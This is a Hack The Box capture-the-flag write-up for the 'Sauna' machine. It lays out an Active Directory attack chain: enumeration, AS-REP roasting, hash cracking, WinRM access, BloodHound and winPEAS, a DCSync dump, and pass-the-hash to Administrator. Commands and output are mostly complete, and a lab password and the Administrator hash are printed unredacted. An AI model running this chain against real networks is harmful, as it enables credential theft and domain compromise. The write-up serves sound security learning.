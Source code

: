 ```yaml
---
title: HTB - Sauna
date: 2024-03-17
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, sauna, nmap, username-generator, username-anarchy, winpeas, getnpusers, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/sauna
published: true
image:
    path: machine_info.png
---
```


## HTB: Sauna

>[Sauna Box](https://app.hackthebox.com/machines/229)

![](sauna_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|Enumerated web server|[Nmap](https://github.com/nmap/nmap), [Mozilla](https://www.mozilla.org/en-GB/firefox/new/)|Obtained first and last names of potential users|
|2|Created custom username list|[Username-Generator](https://github.com/shroudri/username_generator), [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy)|-|
|3|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _fsmith_|
|4|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|5|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|6|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated potential privilege escalation paths|
|7|Executed privileged escalation path|[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)|Obtained credentials of _svc\_loanmgr_|
|8|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

## Attack Chain Reproduction Steps

Performed a TCP all-ports scan and noted that:
  * Port 80 is an IIS web server with the title _Egotistical Bank_
  * Port 5985 allows WinRM access

```bash
$ sudo nmap 10.10.10.175 -T4 -A -open -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-17 16:06:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
```

Enumerated the web server and created a custom user list based on the names found (Figure 1):

![Figure 1: First and last names found on the site.](sauna_site_users.png?600)

```bash
# created a list with the names found
$ cat site_users
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

# created username combinations based on the first and last name
$ username-generator -w site_users > user_gen.lst
$ username-anarchy -i site_users >> user_gen.lst

# deduplicated the generated user list
$ sort user_gen.lst | uniq > user_combined.lst
```

Performed an **ASREPRoasting** attack:

```bash
$ getnpusers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -no-pass -usersfile user_combined.lst | grep asrep
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 fsmith_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting

<SNIP>

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678:Th<REDACTED>23
```

Logged in via WinRM using and compromised the _**user.txt**_ file:

```bash
# logging in the target
$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

<SNIP>

# compromising user.txt
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
0f5<REDACTED>48f
```

Collected domain information and generated visual representations of potential attack paths:

```bash
# uploading binary to target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/sauna/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

# executing binary
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe -c all

<SNIP>

2024-03-17T11:42:59.9578257-07:00|INFORMATION|SharpHound Enumeration Completed at 11:42 AM on 3/17/2024! Happy Graphing!

# downlading output files to attack host
*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20240317114259_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20240317114259_BloodHound.zip to 20240317114259_BloodHound.zip

Info: Download successful!
```

The below attack path (Figure 2) required SYSTEM-level access in order to be exploited:

![Figure 2: Potential attack path from fsmith user.](sauna_fsmith_attack_path.png)

A service account with DCSync rights was found (_**svc\_loanmgr**_) (Figure 3):

![Figure 3: A principal with DCSync rights over the domain.](sauna_dcsync_rights.png)

Performed further system enumeration and discovered _svc\_loanmgr_'s **clear text password**:

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEAS.exe

Info: Uploading /home/kali/htb/sauna/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

Data: 2549076 bytes of 2549076 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Mon<REDACTED>nd!

<SNIP>
```

Perfomed the **DCSync attack** and obtained the _**Administrator**_'s NTLMv2 hash:

```bash
$ secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad<REDACTED>4ee:823<REDACTED>98e:::
<SNIP>
```

Used _Administrator_'s hash to login via WinRM and compromised the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
f14<REDACTED>b8d5
```